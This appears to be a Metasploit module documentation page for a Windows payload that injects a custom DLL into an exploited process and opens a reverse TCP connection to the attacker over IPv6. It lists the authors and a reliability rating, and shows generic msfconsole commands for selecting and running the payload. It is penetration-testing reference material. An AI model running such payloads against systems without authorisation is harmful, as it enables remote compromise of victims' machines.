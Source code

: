 ## Windows Inject DLL, Reverse TCP Stager (IPv6)

Inject a custom DLL into the exploited process. Connect back 
to the attacker over IPv6


## Module Name
payload/windows/patchupdllinject/reverse_ipv6_tcp

## Authors
* jt <jt@klake.org>
* skape
* hdm
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupdllinject/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    